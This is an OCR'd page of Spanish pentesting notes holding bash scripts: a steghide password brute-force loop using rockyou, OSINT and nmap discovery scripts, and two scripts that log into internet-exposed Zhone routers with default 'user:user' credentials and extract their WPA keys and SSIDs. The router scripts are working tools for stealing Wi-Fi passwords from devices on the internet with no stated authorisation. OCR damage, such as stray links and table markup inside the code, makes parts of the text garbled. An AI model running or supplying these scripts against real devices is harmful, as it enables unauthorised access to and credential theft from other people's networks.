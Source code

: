 

# Scripts didácticos

jueves, 7 de mayo de 2020

14:31

Nmap manual para discovery de red

![](RackMultipart20210412-4-pcx9xb_html_deec4685b6489efa.png)



Cómo capturar el crtl-c en bash para que la aplicación no tenga salida descontrolada

trap ctrl\_c INT

function ctrl\_c(){

echo –e &quot;[!] Saliendo...&quot;

exit 1

}

For en una línea:

for i in $(cat /usr/share/wordlists/rockyou.txt);do steghide extract -sf BAND.JPG -p $i; done

Permite agregar una variable en el comando a modo de FOR line

curl &quot;[https://gdata.youtube.com/feeds/api/users/${line}/subscriptions?v=2&amp;alt=json](https://gdata.youtube.com/feeds/api/users/%24%7Bline%7D/subscriptions?v=2&amp;alt=json)&quot;

#!/bin/bash

for hostname in $(cat dom.txt); do host $hostname | grep &quot;has address&quot; | cut -d &quot; &quot; -f4 | sort -u;done

| Script propio para recuperar contraseñas de equipos zhone que estén publicados en internet# el listado de ips debe estar en un txt en el lugar donde se ejecuta el comando.for i in $(cat purasip.txt);do echo -n $i&quot;:&quot;; curl -m 2 -s [http://user:user@$i/wlsecurity.html](mailto:http://user:user@%24i/wlsecurity.html) | grep &quot;var wpaPskKey&quot; | cut -d\&#39; -f2;done |
| --- |

| Script que lee out\_temp por IP e intenta recuperar credenciales una vez ya logueado al server. (zhone)#!/bin/bashCREDS =$1for IP in $(cat out\_temp|cut -f1 -d&quot; &quot;);do echo &quot;[+] Conectando a $IP ...&quot;; echo -n &quot; [+] Obteniendo SSID: &quot;;SSID=$(curl -su $CREDS [http://$IP/wlsecurity.html|grep](https://teams.microsoft.com/_) --color &quot;value=&#39;0&#39;&quot;|cut -f2 -d&quot;\&gt;&quot;|cut -f1 -d&quot;\&lt;&quot;); echo $SSID echo -n &quot; [+] Obteniendo Password: &quot;; KEY=$(curl -su $CREDS [http://$IP/wlsecurity.html|grep](https://teams.microsoft.com/_) --color &quot;var wpaPskKe &#39;{print $4}&#39;|sed -e &quot;s/&#39;//g&quot; -e &#39;s/;//g&#39;); echo $KEYdone |
| --- |

| #!/bin/bashecho &#39;enter target domain: &#39;read domainif [$domain != &#39;&#39;] then echo &#39;Target domain set to $domain&#39; echo &#39;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*&#39; echo &#39;The Harvester&#39; echo &#39;The Harvester&#39; \&gt; OsinT\_$domain.txt theharvester -d $domain -l 50 -b all -f OsinT\_$domain.html echo &#39;done!&#39; echo &#39;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*&#39; echo &#39;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*&#39; \&gt;\&gt; OsinT\_$domain.txt echo &#39;WhoIs Details&#39; whois $domain \&gt;\&gt; OsinT\_$domain.txt echo &#39;done!&#39; echo &#39;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*&#39; echo &#39;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*&#39; \&gt;\&gt; OsinT\_$domain.txt echo &#39;Searching for txt and pdf files on $domain using Goofile&#39; goofile -d $domain -f txt \&gt;\&gt; OsinT\_$domain.txt goofile -d $domain -f pdf \&gt;\&gt; OsinT\_$domain.txtelse echo &#39;Error! Please enter a domain.&#39;fi |
| --- |

| #!/bin/bashecho &quot;Su IP interna es:&quot;ip a | grep -v &#39;127.0.0.1&#39; | grep -v &#39;scope host&#39; | grep &#39;inet&#39;echo &quot;\*\*\*\*\*\*\*\*\*\*\*\*&quot;echo &#39;enter IP segment to scan: &#39;read segmentecho &quot;las siguientes son hosts vivos&quot;nmap -v -sn $segment | grep -v &#39;host down&#39; | grep &#39;Nmap scan&#39; | cut -d &quot; &quot; -f5 |
| --- |

|   |
| --- |



# Active Directory Attack

martes, 9 de marzo de 2021
